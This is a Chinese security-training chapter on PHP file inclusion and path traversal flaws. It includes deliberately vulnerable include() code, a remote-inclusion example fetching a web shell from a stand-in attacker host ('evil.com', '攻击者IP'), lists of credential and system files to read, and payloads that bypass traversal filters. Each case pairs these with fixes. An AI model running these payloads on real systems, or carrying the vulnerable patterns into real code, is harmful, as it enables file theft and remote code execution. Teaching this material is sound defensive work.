




# 第29章 文件包含漏洞基础

> **难度等级：🟡 中等级**
>
> **预计学习时间：120分钟**
>
> **本章看点：什么是文件包含、LFI与RFI的区别、PHP文件包含函数、漏洞产生原因、读取敏感文件、路径穿越/目录遍历、目录穿越绕过技巧**
>
> ::: tip 说明
> 恭喜你进入文件包含漏洞模块！
>
> 如果说SQL注入是"拖库之王"，
> XSS是"客户端之王"，
> 文件上传是"拿Shell最快的漏洞"，
> 命令执行是"最直接的漏洞"，
>
> 那文件包含漏洞就是"最灵活的漏洞"——
> 它可以读文件、可以执行代码、
> 可以和其他漏洞组合利用，
> 玩法非常多。
>
> 这一章，
> 我们就从最基础的开始，
> 什么是文件包含、
> LFI和RFI的区别、
> PHP有哪些文件包含函数、
> 漏洞是怎么产生的、
> 怎么读取敏感文件、
> 以及路径穿越漏洞。
>
> 准备好了吗？
> 让我们开始！
> :::

---

## 📖 本章概述

::: tip 写在前面
很多新手一听到"文件包含漏洞"，
就觉得很简单：
"不就是include个文件嘛！"

其实没那么简单。
文件包含漏洞的玩法非常多，
从读取敏感文件到执行代码，
从本地文件包含到远程文件包含，
从PHP伪协议到日志包含，
从session包含到phar反序列化...

而且文件包含漏洞经常和其他漏洞组合利用，
比如文件上传 + 文件包含，
命令执行 + 文件包含，
等等。

这一章我们先讲基础：
- 什么是文件包含漏洞
- 本地文件包含（LFI）vs 远程文件包含（RFI）
- PHP文件包含函数
- 文件包含漏洞产生的原因
- 文件包含的危害
- 读取敏感文件
- 路径穿越/目录遍历漏洞
- 目录穿越绕过技巧

下一章再讲更高级的内容，
比如PHP伪协议、日志包含、session包含等。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 知道什么是文件包含漏洞
- [x] 理解LFI和RFI的区别
- [x] 掌握PHP的4个文件包含函数
- [x] 理解文件包含漏洞产生的原因
- [x] 理解文件包含漏洞的危害
- [x] 会用文件包含读取敏感文件
- [x] 理解路径穿越/目录遍历漏洞
- [x] 掌握基本的目录穿越绕过技巧
- [x] 能识别简单的文件包含漏洞
- [x] 能在DVWA上练习文件包含

---

## 🔍 什么是文件包含漏洞？

### 1.0 通俗理解：文件包含就像"模板拼接"

在学专业知识之前，先用生活场景帮你们建立直观感受。

**场景：餐厅的菜单模板**

你去一家连锁餐厅，每家分店都有同样的布局，但有些内容不一样。
聪明的餐厅用了一个统一模板：

```
模板: 欢迎来到 [城市名] 分店！今天的推荐是 [推荐菜]。
```

每家分店只需要传入：
- `城市名` = "深圳"
- `推荐菜` = "红烧肉"

模板就自动变成：**"欢迎来到 深圳 分店！今天的推荐是 红烧肉。"**

这，就是**文件包含**的基本思想——把一些公用的代码做成模板，
需要的时候"拼"进来。

**在PHP中：**

```php
// header.php - 每个页面都有的头部
<html><head>...</head><body>

// footer.php - 每个页面都有的尾部
</body></html>

// index.php - 主页面
<?php include("header.php"); ?>
<h1>这是首页内容</h1>
<?php include("footer.php"); ?>
```

这种做法本身没有问题，非常合理。
问题出在——**谁来指定"包含哪个文件"？**

**漏洞是怎么产生的？**

```php
// 正常的代码
$page = $_GET['page'];
include($page . ".php");
// 用户访问: ?page=about → 包含 about.php ✓
```

问题来了：如果用户输入的不是 `about`，而是 `../../../../etc/passwd` 呢？
```php
include("../../../../etc/passwd.php");
```
这个文件不存在？没关系，如果服务器配置了 `%00` 截断或者不自动加 `.php`：
```php
include($_GET['page']);
// 用户输入: ?page=../../../../etc/passwd
// 直接读取了密码文件！
```

**更危险的情况——远程文件包含（RFI）：**
```php
// 如果 allow_url_include = On
// 用户输入: ?page=http://evil.com/shell.txt
include("http://evil.com/shell.txt");
// 服务器去攻击者的网站下载了恶意代码并执行！
```

> **一句话理解：**
> 文件包含本来是把"模板"拼进来的正常操作，
> 但当用户能控制"拼哪个文件"时，
> 正常的功能就变成了漏洞。
> 用户就能告诉服务器："别拼你那个模板了，
> 帮我把系统密码文件读出来，或者去我的网站下载恶意代码。"

### 1.1 概念

**文件包含漏洞（File Inclusion），
就是应用程序在包含文件的时候，
没有对用户输入做严格的过滤和检查，
导致攻击者可以通过控制包含的文件名，
来读取敏感文件或者执行恶意代码。**

说白了就是：
> 开发者想让用户选择"语言版本"或者"模板"，
> 结果用户输入了 `../../../etc/passwd`，
> 服务器就把 `/etc/passwd` 给包含进来了，
> 敏感信息就泄露了。

更严重的是，
如果能包含一个自己上传的恶意文件，
那就可以直接执行任意代码，
拿到WebShell。

### 1.2 一个最简单的例子

让我们看一个最经典的文件包含场景：
**页面模板切换**。

很多网站都有"换模板"或者"多语言"功能，
根据用户选择的不同，
包含不同的模板文件或者语言文件。

后端PHP代码可能长这样：

```php
<?php
// 获取用户选择的页面
$page = $_GET['page'];

// 包含对应的页面文件
include($page . ".php");
?>
```

正常情况下，
用户访问 `?page=home`，
服务器包含 `home.php`，
没问题。

但是如果攻击者输入：
```
?page=../../../etc/passwd
```

那服务器包含的文件就变成了：
```
../../../etc/passwd.php
```
（不对，后面会加.php后缀，我们后面讲绕过）

或者更直接的，如果代码是这样的：
```php
<?php
$file = $_GET['file'];
include($file);
?>
```

那攻击者直接输入：
```
?file=/etc/passwd
```
就直接读取到 `/etc/passwd` 文件了！

这就是最基础的文件包含漏洞。

**图29-1 文件包含漏洞原理示意图**

```mermaid
flowchart LR
    User[攻击者] -->|构造恶意文件名<br/>?file=/etc/passwd| App[Web应用]
    App -->|未过滤直接拼接| Inc["include($file)"]
    Inc --> FS[文件系统]
    FS -->|读取敏感文件| R1[/etc/passwd 内容]
    FS -->|包含恶意文件| R2[执行PHP代码]
    R1 --> App
    R2 --> App
    App -->|回显/执行| User
```

### 1.3 文件包含漏洞的分类

文件包含漏洞大致可以分为两类：

| 类型 | 全称 | 说明 | 危害 |
|------|------|------|------|
| **LFI** | Local File Inclusion | 本地文件包含，只能包含服务器上的文件 | 读取敏感文件，配合上传GetShell |
| **RFI** | Remote File Inclusion | 远程文件包含，可以包含远程URL上的文件 | 直接执行任意代码，危害极大 |

::: warning 注意
远程文件包含（RFI）需要PHP的 `allow_url_include` 配置为On，
默认情况下这个配置是关闭的，
所以RFI比较少见。
而LFI（本地文件包含）更常见。
:::

---

## 🏠 LFI vs RFI，有啥区别？

很多新手搞不清
本地文件包含和远程文件包含的区别，
我们来详细对比一下。

### 2.1 本地文件包含（LFI）

**本地文件包含，就是只能包含服务器本地的文件。**

比如：
```php
<?php
$file = $_GET['file'];
include($file);
?>
```

攻击者可以包含服务器上的任意文件，
比如：
- `/etc/passwd`：系统用户文件
- `/etc/shadow`：密码文件（有权限的话）
- `config.php`：网站配置文件
- `/var/log/apache2/access.log`：日志文件
- ...

**特点：**
- 只能包含本地文件
- 配置要求低（不需要特殊配置）
- 更常见
- 危害相对小一些（但也很大）
- 可以配合文件上传、日志包含等GetShell

### 2.2 远程文件包含（RFI）

**远程文件包含，就是可以包含远程URL上的文件。**

比如：
```php
<?php
$file = $_GET['file'];
include($file);
?>
```

攻击者可以包含自己服务器上的恶意PHP文件，
比如：
```
?file=http://攻击者IP/shell.txt
```

服务器就会去请求这个URL，
然后把返回的内容当作PHP代码执行。

**特点：**
- 可以包含远程URL的文件
- 需要 `allow_url_fopen = On` 和 `allow_url_include = On`
- 默认配置下一般是关闭的，所以比较少见
- 危害极大，直接就能执行任意代码
- 利用简单，直接包含远程PHP文件就行

::: tip PHP配置说明
要支持远程文件包含，
需要php.ini中开启两个配置：
```ini
allow_url_fopen = On
allow_url_include = On
```

`allow_url_fopen` 默认是On，
但 `allow_url_include` 默认是Off。
所以RFI在真实环境中相对少见。
:::

### 2.3 一张图看懂区别

| 对比项 | LFI（本地文件包含） | RFI（远程文件包含） |
|--------|---------------------|---------------------|
| **包含范围** | 服务器本地文件 | 远程URL文件 |
| **配置要求** | 无特殊要求 | 需要allow_url_include=On |
| **常见程度** | 很常见 | 较少见 |
| **直接危害** | 读取敏感文件 | 直接执行任意代码 |
| **间接危害** | 配合上传/日志包含GetShell | - |
| **利用难度** | 稍高（需要想办法拿Shell） | 很低（直接包含Shell） |

::: tip 实战建议
实际测试时，
先判断是LFI还是RFI：
1. 先试试能不能包含 `/etc/passwd`（LFI）
2. 再试试能不能包含远程URL（RFI）
3. 如果RFI可以用，那就太简单了，直接GetShell
4. 如果只有LFI，就想其他办法（伪协议、日志包含等）
:::

**图29-2 LFI与RFI对比图**



---

## 📂 PHP文件包含函数

PHP中有4个常用的文件包含函数，
它们很像，但也有一些区别。

### 3.1 include() 函数

`include()` 是最常用的文件包含函数，
它会包含并运行指定文件。

**语法：**
```php
include(string $filename): void
```

**特点：**
- 包含文件出错时（比如文件不存在），**发出警告**，脚本继续执行
- 可以用在条件语句、循环等任何地方
- 执行时包含，也就是说可以动态包含

**例子：**
```php
<?php
// 包含文件
include 'header.php';

// 变量也可以
$file = 'config.php';
include $file;

// 配合用户输入（有漏洞的写法）
include $_GET['page'];
?>
```

### 3.2 require() 函数

`require()` 和 `include()` 类似，
也是包含并运行指定文件。

**语法：**
```php
require(string $filename): void
```

**特点：**
- 包含文件出错时（比如文件不存在），**发出致命错误**，脚本停止执行
- 其他方面和include差不多

**例子：**
```php
<?php
// 重要的配置文件用require
// 因为如果配置文件加载失败，后面也没法运行了
require 'config.php';

// 有漏洞的写法
require $_GET['page'];
?>
```

### 3.3 include_once() 函数

`include_once()` 和 `include()` 类似，
区别是如果文件已经被包含过了，
就**不会再包含第二次**。

**语法：**
```php
include_once(string $filename): void
```

**特点：**
- 同一个文件只包含一次
- 避免重复定义函数、类等问题
- 出错时发出警告，脚本继续执行

**例子：**
```php
<?php
// 只包含一次
include_once 'config.php';
include_once 'config.php'; // 这行不会再包含了
?>
```

### 3.4 require_once() 函数

`require_once()` 和 `require()` 类似，
区别是如果文件已经被包含过了，
就**不会再包含第二次**。

**语法：**
```php
require_once(string $filename): void
```

**特点：**
- 同一个文件只包含一次
- 出错时发出致命错误，脚本停止执行

**例子：**
```php
<?php
// 重要配置只加载一次
require_once 'config.php';
?>
```

### 3.5 四个函数对比表

| 函数 | 出错时 | 是否重复包含 | 适用场景 |
|------|--------|-------------|----------|
| `include()` | 警告，继续执行 | 可以重复包含 | 非关键文件，如模板、页面 |
| `require()` | 致命错误，停止 | 可以重复包含 | 关键文件，如配置文件 |
| `include_once()` | 警告，继续执行 | 只包含一次 | 类库、函数库等 |
| `require_once()` | 致命错误，停止 | 只包含一次 | 重要的类库、配置 |

::: tip 对漏洞利用的影响
从漏洞利用的角度来说，
这四个函数差别不大，
都能用来读取文件或者执行代码。
区别只是出错时的表现不同，
不影响我们利用漏洞。
:::

### 3.6 其他相关函数

除了这四个包含函数，
还有一些函数也可能导致文件包含或者文件读取问题：

- `file_get_contents()`：读取文件内容
- `readfile()`：读取并输出文件
- `fopen()` / `fread()` / `fclose()`：打开、读取、关闭文件
- `highlight_file()` / `show_source()`：高亮显示PHP文件源码
- `file()`：把文件读入数组
- `parse_ini_file()`：解析ini文件
- ...

这些函数虽然不是"包含"函数，
但如果用户可控文件名，
也能用来读取敏感文件，
危害和LFI类似。

**图29-3 PHP文件包含函数分类图**



---

## ⚠️ 文件包含漏洞产生的原因

文件包含漏洞是怎么产生的呢？
根本原因还是那个：

> **用户输入可控，且拼接到了文件路径中。**

但具体到场景，
有很多种情况。

### 4.1 常见的漏洞场景

#### 场景1：模板/页面切换
这是最常见的场景。
很多网站根据用户选择来包含不同的页面。

**典型漏洞代码：**
```php
<?php
// 根据参数包含不同的页面
$page = $_GET['page'];
include $page . '.php';
?>
```

#### 场景2：多语言切换
网站支持多语言，
根据用户选择包含不同的语言包。

**典型漏洞代码：**
```php
<?php
// 包含语言文件
$lang = $_GET['lang'];
include "lang/" . $lang . ".php";
?>
```

#### 场景3：主题/皮肤切换
网站支持多主题，
根据用户选择包含不同的主题文件。

**典型漏洞代码：**
```php
<?php
// 包含主题文件
$theme = $_GET['theme'];
include "themes/" . $theme . "/header.php";
?>
```

#### 场景4：文件查看/下载功能
有些网站有"查看文件"的功能，
让用户查看自己上传的文件。

**典型漏洞代码：**
```php
<?php
// 查看文件
$filename = $_GET['file'];
include $filename;
// 或者 readfile($filename);
?>
```

### 4.2 漏洞产生的根本原因

总结一下，
文件包含漏洞产生的根本原因：

1. **输入验证不严格**：没有对用户输入做严格的过滤和检查
2. **路径拼接用户输入**：把用户输入直接拼接到文件路径中
3. **使用文件包含函数**：include、require等
4. **没有限制文件范围**：没有限制只能包含某个目录下的文件
5. **安全意识不足**：开发者不知道文件包含的危险性

::: tip 一句话总结
> 只要文件名是用户可控的，
> 且没有严格限制路径，
> 就可能存在文件包含漏洞。
:::

---

## 💥 文件包含漏洞的危害

文件包含漏洞的危害有多大？
这取决于：
- 是LFI还是RFI
- 能不能包含PHP文件执行代码
- 权限有多大

### 5.1 LFI能做什么？

如果只是LFI（本地文件包含），
能做的事情也很多：

| 危害等级 | 能做的事 | 说明 |
|----------|----------|------|
| 🟡 中危 | **读取敏感文件** | 配置文件、密码文件、日志文件等 |
| 🟠 高危 | **源码泄露** | 读取网站PHP源码，发现更多漏洞 |
| 🟠 高危 | **配合文件上传GetShell** | 上传图片马，然后包含执行 |
| 🔴 严重 | **日志包含GetShell** | 往日志里写PHP代码，然后包含日志 |
| 🔴 严重 | **session包含GetShell** | 往session文件里写PHP代码，然后包含 |
| 🔴 严重 | **php://input等伪协议执行代码** | 用伪协议直接执行PHP代码 |

### 5.2 RFI能做什么？

如果是RFI（远程文件包含），
那就简单粗暴了：
- 直接执行任意PHP代码
- 直接拿WebShell
- 直接反弹Shell
- 提权、内网渗透...

**一句话：RFI = 直接代码执行**
危害极大，
但相对少见。

### 5.3 能读取哪些敏感文件？

#### Linux系统：
```
/etc/passwd            # 用户信息
/etc/shadow            # 密码哈希（需要root权限）
/etc/hosts             # hosts文件
/etc/hostname          # 主机名
/etc/issue             # 系统版本
/etc/resolv.conf       # DNS配置
/etc/my.cnf            # MySQL配置
/etc/apache2/apache2.conf  # Apache配置
/etc/nginx/nginx.conf  # Nginx配置
/root/.ssh/id_rsa      # root的SSH私钥
~/.ssh/authorized_keys # SSH授权密钥
/var/log/apache2/access.log  # Apache访问日志
/var/log/auth.log      # 认证日志
/proc/version          # 内核版本
/proc/cpuinfo          # CPU信息
/proc/net/tcp          # TCP连接
...
```

#### Windows系统：
```
C:\Windows\System32\drivers\etc\hosts
C:\boot.ini
C:\Windows\win.ini
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM
...
```

#### Web应用：
```
config.php             # 配置文件
config.inc.php
config/db.php
.env                   # 环境变量文件
../config.php          # 上级目录的配置
...
```

### 5.4 危害等级评估

| 场景 | 危害等级 | 说明 |
|------|----------|------|
| RFI（远程文件包含） | 🔴 严重 | 直接执行任意代码 |
| LFI + 文件上传 | 🔴 严重 | 上传图片马然后包含 |
| LFI + 日志包含 | 🔴 严重 | 往日志写代码然后包含 |
| LFI + php://input | 🔴 严重 | 直接执行PHP代码 |
| LFI读取敏感配置 | 🟠 高危 | 获取数据库密码等 |
| LFI读取普通文件 | 🟡 中危 | 信息泄露 |

**图29-4 文件包含漏洞危害与利用路径图**



---

## 📖 读取敏感文件

说了这么多，
我们来看看怎么用文件包含读取敏感文件。

### 6.1 最简单的情况：直接读取

如果代码是这样的（没有任何过滤）：
```php
<?php
$file = $_GET['file'];
include($file);
?>
```

那直接读就行：
```
?file=/etc/passwd
```

但是注意，
include会把文件当作PHP代码执行。
如果文件里没有PHP代码，
就会直接输出文件内容。
如果文件里有 `<?php ... ?>`，
就会执行里面的PHP代码。

所以用include读取非PHP文件，
其实是没问题的，
内容会直接显示出来。

### 6.2 有前缀的情况

如果代码是这样的（有目录前缀）：
```php
<?php
$file = $_GET['file'];
include "lang/" . $file;
?>
```

那我们需要穿越目录，
跳出 `lang/` 目录。

怎么穿越呢？
用 `../` ！

```
?file=../../../../etc/passwd
```

这样拼接后就是：
```
lang/../../../../etc/passwd
```

解释一下：
- `lang/`：当前目录下的lang目录
- `../`：回到上一级目录
- 一个 `../` 回退一级
- 多写几个总能退到根目录

这样就能读到 `/etc/passwd` 了。

这就是**路径穿越**（也叫目录遍历）。

### 6.3 有后缀的情况

如果代码是这样的（有后缀）：
```php
<?php
$file = $_GET['file'];
include($file . ".php");
?>
```

那我们输入 `/etc/passwd` 的话，
实际包含的是 `/etc/passwd.php`，
这就不对了，
因为没有这个文件。

怎么办呢？
这就需要截断了。

**截断方法（PHP < 5.3.4）：**
在PHP 5.3.4之前的版本中，
可以用 `%00` 空字节截断。

```
?file=/etc/passwd%00
```

这样拼接后是：
```
/etc/passwd%00.php
```

PHP底层是C写的，
C语言中字符串遇到 `\0` 就结束了，
所以实际包含的是 `/etc/passwd`，
后面的 `.php` 被截断了。

::: warning 注意
`%00` 截断只在 PHP < 5.3.4 版本中有效，
而且 `magic_quotes_gpc` 要关闭。
现在新的PHP版本已经不行了，
但老系统可能还能用。
:::

**PHP >= 5.3.4怎么办？**
高版本PHP的话，
%00截断就不行了。
这时候可以用其他方法，
比如：
- 用 `php://filter` 伪协议读取（下一章讲）
- 用长度截断（Windows下，路径长度有最大限制）
- 包含日志、session等（下一章讲）
- 问号绕过（远程文件包含的话可以用?，把后缀当参数）

---

## 🚶 路径穿越/目录遍历漏洞

刚才提到了路径穿越，
这一节我们专门来讲讲。

### 7.1 什么是路径穿越？

**路径穿越（Path Traversal），
也叫目录遍历（Directory Traversal），
就是通过 `../` 等方式，
访问到本不该访问的目录下的文件。**

比如：
- 本来只能访问 `lang/` 目录下的文件
- 结果通过 `../../etc/passwd` 访问到了 `/etc/passwd`

路径穿越不一定只出现在文件包含中，
文件读取、文件下载、文件删除等功能，
只要用户能控制文件名且没限制路径，
都可能存在路径穿越。

### 7.2 路径穿越的原理

Linux中，
`../` 表示上一级目录，
`./` 表示当前目录。

比如：
```
/var/www/html/lang/../../etc/passwd
```

我们来一步步看：
1. `/var/www/html/lang/`：lang目录
2. `../`：回退到 `/var/www/html/`
3. `../`：回退到 `/var/www/`
4. `etc/passwd`：进入etc目录，找passwd

最终路径就是：
```
/var/www/../../../etc/passwd
= /etc/passwd
```

没错！
只要 `../` 够多，
总能退到根目录，
然后就能访问任意文件了。

**图29-5 路径穿越原理示意图**


### 7.3 最简单的路径穿越

**漏洞代码：**
```php
<?php
// 只允许查看 uploads/ 目录下的文件
$filename = $_GET['file'];
readfile("uploads/" . $filename);
?>
```

**利用：**
```
?file=../../../etc/passwd
```

这样就能读到 `/etc/passwd` 了。

### 7.4 常见的路径穿越场景

- 文件包含
- 文件下载
- 文件读取
- 文件删除
- 文件重命名
- 图片查看
- 模板加载
- 语言包加载
- ...

**只要是用户能控制文件名的地方，
都要检查有没有路径穿越！**

---

## 🔓 目录穿越绕过技巧

开发者也不是傻子，
很多时候会做一些过滤，
比如过滤 `../`。
但过滤得不严的话，
还是有办法绕过的。

### 8.1 双写绕过

如果过滤了 `../`，
把 `../` 替换成空，
可以试试双写：

```
....//
```

解释：
- `....//` 中，把中间的 `../` 替换掉
- 剩下的就是 `../` 了！

推导：
```
原始：....//
   ↓ 替换 ../ 为空
结果：../
```

所以payload：
```
?file=....//....//....//etc/passwd
```

### 8.2 编码绕过

#### URL编码
`../` 的URL编码是 `%2e%2e%2f`。
如果程序只过滤了 `../` 字符串，
没过滤URL编码后的，
就可以绕过。

```
?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

#### 双重URL编码
有些程序会解码一次，
然后再过滤，
这时候可以双重编码：

`../` → URL编码 → `%2e%2e%2f` → 再URL编码 → `%252e%252e%252f`

```
?file=%252e%252e%252fetc%252fpasswd
```

#### 其他编码
- Unicode编码：`..%c0%af`（UTF-8 overlong）
- 还有各种奇奇怪怪的编码...

### 8.3 尾部加 ./

有些过滤只过滤开头的 `../`，
或者检查路径是否以某个目录开头，
可以试试在后面加东西：

```
?file=../../etc/passwd/.
```

（有些情况下最后加 `/.` 不影响路径解析）

### 8.4 绝对路径绕过

如果程序只检查有没有 `../`，
那直接用绝对路径就行了：

```
?file=/etc/passwd
```

根本不需要 `../`！

### 8.5 多系统路径符

Windows下路径分隔符是 `\`，
Linux是 `/`。
如果程序只过滤了 `/`，
在Windows下可以用 `\`：

```
?file=..\..\..\windows\win.ini
```

或者混用：
```
?file=..\/..\/..\/etc/passwd
```

### 8.6 绕过方法汇总表

| 方法 | 原理 | Payload示例 |
|------|------|-------------|
| 直接 `../` | 没过滤 | `../../etc/passwd` |
| 双写 `....//` | 替换 `../` 为空后剩下 `../` | `....//....//etc/passwd` |
| URL编码 | 过滤了原始字符串没过滤编码 | `%2e%2e%2fetc/passwd` |
| 双重URL编码 | 解码一次后过滤，再解码一次 | `%252e%252e%252fetc/passwd` |
| 绝对路径 | 只过滤了 `../` | `/etc/passwd` |
| Windows反斜杠 | 只过滤了 `/` | `..\..\windows\win.ini` |
| 末尾加 `/.` | 某些检查逻辑缺陷 | `../../etc/passwd/.` |

::: tip 实战建议
实际测试时，
按这个顺序试：
1. 直接 `../../etc/passwd`
2. 不行就试试绝对路径 `/etc/passwd`
3. 试试双写 `....//`
4. 试试URL编码 `%2e%2e%2f`
5. 试试双重编码
6. Windows的话试试反斜杠
7. 还有其他各种奇技淫巧...
:::

**图29-6 目录穿越绕过技巧分类图**



---

## 📚 案例讲解

理论讲了这么多，
我们来看几个真实的案例。

### 案例1：最基础的本地文件包含

**场景描述：**
某网站有一个"页面切换"功能，
通过 `?page=xxx` 来包含不同的页面文件。

**后端代码（简化版）：**
```php
<?php
// 获取页面参数
$page = $_GET['page'];

// 包含页面
include($page . ".php");
?>
```

**漏洞分析：**
- 用户输入 `$page` 直接拼接到include中
- 虽然加了 `.php` 后缀，但可以截断
- 典型的文件包含漏洞

**利用方法：**

**1. 读取/etc/passwd（低版本PHP）：**
```
?page=../../../../etc/passwd%00
```
（PHP < 5.3.4时，%00截断后缀）

**2. 读取网站配置文件：**
```
?page=../config%00
```
（读取上一级目录的config.php）

**3. 如果支持RFI（allow_url_include=On）：**
```
?page=http://攻击者IP/shell.txt?
```
（问号把后面的.php当参数，远程包含shell.txt）

**4. 配合文件上传：**
- 先上传一个图片马（比如1.jpg，内容是PHP代码）
- 然后包含它：
```
?page=uploads/1.jpg%00
```
这样图片马就被当作PHP执行了。

**修复建议：**
- 白名单校验，只允许包含指定的页面
- 禁止使用用户输入直接作为文件名
- 限制只能包含某个目录下的文件
- 关闭allow_url_include

---

### 案例2：路径穿越读取敏感文件

**场景描述：**
某网站有一个"下载文件"功能，
用户可以下载自己上传的文件。

**后端代码：**
```php
<?php
$filename = $_GET['file'];
// 下载文件
header("Content-Disposition: attachment; filename=" . $filename);
readfile("uploads/" . $filename);
?>
```

**漏洞分析：**
- 用户输入 `$filename` 直接拼接到路径中
- 没有过滤 `../`
- 存在路径穿越漏洞

**利用方法：**

**读取/etc/passwd：**
```
?file=../../../../etc/passwd
```

**读取网站配置文件：**
```
?file=../config.php
```

**读取网站源码：**
```
?file=../index.php
```

**读取日志文件：**
```
?file=../../../../var/log/apache2/access.log
```

**修复建议：**
- 对文件名进行校验，过滤 `../`
- 使用 `basename()` 函数只取文件名
- 限制只能在指定目录下
- 用realpath()检查真实路径是否在允许的目录内

---

### 案例3：远程文件包含GetShell

**场景描述：**
某老系统PHP版本比较老，
而且开了 `allow_url_include`，
存在文件包含漏洞。

**漏洞代码：**
```php
<?php
$module = $_GET['module'];
include($module . ".php");
?>
```

**利用方法：**

攻击者在自己的服务器上放一个文件 `shell.txt`，
内容是：
```php
<?php
system($_GET['cmd']);
?>
```

然后访问：
```
?module=http://攻击者IP/shell.txt?
```

**解释：**
- 问号 `?` 很重要！
- 拼接后是：`http://攻击者IP/shell.txt?.php`
- 对于HTTP请求来说，`.php` 是查询参数的一部分
- 所以实际请求的还是 `shell.txt`
- 然后PHP包含这个URL返回的内容
- 也就是我们的恶意PHP代码
- 这样就直接执行了！

然后就可以执行命令了：
```
?module=http://攻击者IP/shell.txt?&cmd=whoami
```

（注意参数传递，可能需要调整）

**修复建议：**
- 关闭 `allow_url_include`
- 关闭 `allow_url_fopen`（如果不需要的话）
- 对包含的文件做白名单校验
- 不要使用用户输入直接作为包含路径

---

### 案例4：语言包切换导致的文件包含

**场景描述：**
某CMS有多语言功能，
用户可以切换语言，
后台通过包含不同的语言包来实现。

**漏洞代码（简化版）：**
```php
<?php
// 获取语言参数
$lang = $_GET['lang'];

// 包含语言文件
include "languages/" . $lang . ".lang.php";
?>
```

**漏洞分析：**
- 有前缀 `languages/`
- 有后缀 `.lang.php`
- 看起来挺安全的？
- 但是可以路径穿越！

**利用方法：**

**1. 穿越目录读取文件：**
```
?lang=../../../../etc/passwd%00
```
（低版本PHP，%00截断）

**2. 如果PHP版本高，不能截断怎么办？**
可以用php://filter伪协议（下一章讲）：
```
?lang=php://filter/convert.base64-encode/resource=../config
```
（不对，后面还有后缀，具体下一章细讲）

或者用其他方法，
比如日志包含、session包含等，
这些我们下一章会讲。

**修复建议：**
- 白名单校验，只允许指定的语言（如zh-cn、en等）
- 用in_array检查是否在允许的列表中
- 不要直接用用户输入拼接路径

---

### 案例5：图片查看功能的路径穿越

**场景描述：**
某网站有一个"查看图片"的功能，
用户传入图片名，
服务器读取图片并显示。

**漏洞代码：**
```php
<?php
$img = $_GET['img'];
header("Content-Type: image/jpeg");
readfile("images/" . $img);
?>
```

**漏洞分析：**
- 虽然是图片功能，但也能读其他文件
- 没有过滤 `../`
- 存在路径穿越

**利用方法：**

**读取PHP源码：**
```
?img=../index.php
```
虽然Content-Type是image/jpeg，
但浏览器会显示乱码，
但源码已经返回了，
看源码或者保存下来就行。

**读取配置文件：**
```
?img=../config.php
```

**读取/etc/passwd：**
```
?img=../../../../etc/passwd
```

**修复建议：**
- 检查文件扩展名，只允许图片格式
- 用 `getimagesize()` 检查是否是真的图片
- 过滤 `../`，限制在图片目录内
- 使用白名单或者随机文件名

---

## ✏️ 课后习题

学完了本章，
来做几道题巩固一下吧！

### 选择题

1. 以下哪个**不是**PHP的文件包含函数？
   - A. include()
   - B. require()
   - C. eval()
   - D. include_once()

2. LFI和RFI的主要区别是什么？
   - A. LFI危害更大
   - B. RFI只能包含本地文件
   - C. LFI只能包含本地文件，RFI可以包含远程URL
   - D. 没区别，只是叫法不同

3. 远程文件包含（RFI）需要开启哪个PHP配置？
   - A. display_errors
   - B. allow_url_include
   - C. register_globals
   - D. magic_quotes_gpc

4. 路径穿越中，用来表示上一级目录的是？
   - A. `./`
   - B. `../`
   - C. `/`
   - D. `~`

5. 以下哪种方法**不能**用来绕过 `../` 的过滤？
   - A. 双写 `....//`
   - B. URL编码 `%2e%2e%2f`
   - C. 用绝对路径 `/etc/passwd`
   - D. 用 `<?php ?>` 标签

### 填空题

1. PHP的四个文件包含函数是：_______、_______、_______、_______。

2. 文件包含漏洞分为两类：_______（本地文件包含）和 _______（远程文件包含）。

3. 路径穿越中，用 _______ 来表示上一级目录。

4. 在低版本PHP中，可以用 _______ 空字节截断文件后缀。

